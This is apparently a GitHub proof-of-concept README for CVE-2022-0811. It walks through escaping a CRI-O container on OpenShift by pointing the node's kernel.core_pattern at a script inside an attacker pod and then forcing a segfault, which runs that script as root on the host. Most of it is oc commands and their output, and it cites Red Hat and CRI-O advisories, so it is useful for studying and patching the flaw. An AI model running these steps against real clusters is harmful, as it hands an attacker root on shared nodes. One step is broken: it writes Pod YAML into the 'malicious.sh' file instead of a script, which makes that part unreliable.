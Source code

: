 # Proof of Concept: Leveraging CVE-2022-0811 to Compromise Kubernetes 
##### Many thanks to CrowdStrike cloud security researchers.  This quick quide was created with their findings and tailored for OpenShift specifically.

## Description
A flaw was found in CRI-O in the way it set kernel options for a pod. This issue allows anyone with rights to deploy a pod on a Kubernetes cluster that uses the CRI-O runtime to achieve a container escape and arbitrary code execution as root on the cluster node, where the malicious pod was deployed.

## Directly Affected Software
- CRI-O version 1.19+

## Indirectly Affected Software and Platforms
### While the vulnerability is in CRI-O, software and platforms that depend on it are also likely to be vulnerable, including:
- OpenShift 4.6+
- Oracle Container Engine for Kubernetes

## Remediation
- ### [Red Hat OpenShift - CVE-2022-0811](https://access.redhat.com/security/cve/cve-2022-0811)

## External References
- ### [GitHub cri-o](https://github.com/cri-o/cri-o/security/advisories/GHSA-6x2m-w449-qwx7)

# Overview
#### This proof of concept (POC) uses a malicious PodSpec to set the kernel.core_pattern kernel parameter, which specifies how the kernel should react to a core dump. In this case, we’ll tell it to execute a binary hosted in another pod. That binary will be run as root outside of any container. Finally, we’ll trigger a core dump causing the kernel to invoke the malicious executable.

# Startup Pod to Host Malicious Executable
`oc create -f ./malicious-script-host.yaml`

```
pod/malicious-script-host created
```
# Determine Root Path From Host Mount Namespace
#### This is the path to the root of the container from the perspective of the kernel.
` oc exec -it malicious-script-host -- mount | grep overlay | awk -F, '{ print $6 }'`
```
upperdir=/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e/diff
```
# Copy contents of malicious.sh
```
oc exec -i malicious-script-host -- /bin/bash -c "cat <<EOF > /tmp/malicious.sh
apiVersion: v1
kind: Pod
metadata:
  name: malicious-script-host
spec:
  containers:
  - name: ubi-8
    image: registry.access.redhat.com/ubi8/ubi:8.5-236
    command: ["tail", "-f", "/dev/null"]
EOF
```
# Modify script permissions and verify
`oc exec -i malicious-script-host -- /bin/bash -c 'chmod 755 /tmp/malicious.sh && ls -al /tmp/malicious.sh'`
```
-rwxr-xr-x. 1 root root 197 Mar 17 19:22 /tmp/malicious.sh
```
# Use Second Pod to Point Core Pattern to Malicious Script
### NOTE: You must ensure this pod runs on the same node as the malicious script pod. 

`oc create -f ./sysctl-set.yaml`
```
pod/sysctl-set created
```
`oc get pods`
```
NAME                    READY   STATUS              RESTARTS   AGE
malicious-script-host   1/1     Running             0          14m
sysctl-set              0/1     ContainerCreating   0          68s
```
### Whether or not the sysctl-set pod starts, it will successfully update the node-wide core_pattern to point into our malicious-script-host container. 
`oc exec -it malicious-script-host -- /bin/bash -c "cat /proc/sys/kernel/core_pattern"`
```
|/var/lib/containers/storage/overlay/3ef1281bce79865599f673b476957be73f994d17c15109d2b6a426711cf753e6/diff/tmp/malicious.sh #'
```
# First enable core dumps:
`oc exec -it malicious-script-host -- /bin/bash -c "ulimit -c unlimited && ulimit -c"`
```
unlimited
```

#### Note for ubi8 image ps will need to be installed via
`oc exec -it malicious-script-host -- /bin/bash -c "yum install procps-ng -y && ps --version"`
```
Installed:
  procps-ng-3.3.15-6.el8.x86_64
ps from procps-ng 3.3.15
```
# Now trigger the core dump:
`oc exec -it malicious-script-host -- /bin/bash`
`tail -f /dev/null &`
`ps`
```
PID   USER     TIME  COMMAND
    1 root      0:00 tail -f /dev/null
   34 root      0:00 /bin/bash
   42 root      0:00 tail -f /dev/null
   43 root      0:00 ps
```
`kill -SIGSEGV 42`
```/ #
[1]+  Segmentation fault (core dumped) tail -f /dev/null
```
# Verify Malicious Script Ran :boom: :beer:

`oc exec -it malicious-script-host -- /bin/bash -c 'cat /output'`
```
Wed Feb 23 14:20:07 UTC 2022
root
ocp-cluster
```
##### This script was invoked by the kernel outside of the container namespace with root privileges. A real attacker could, as an example, run a reverse shell and gain full control of the node.
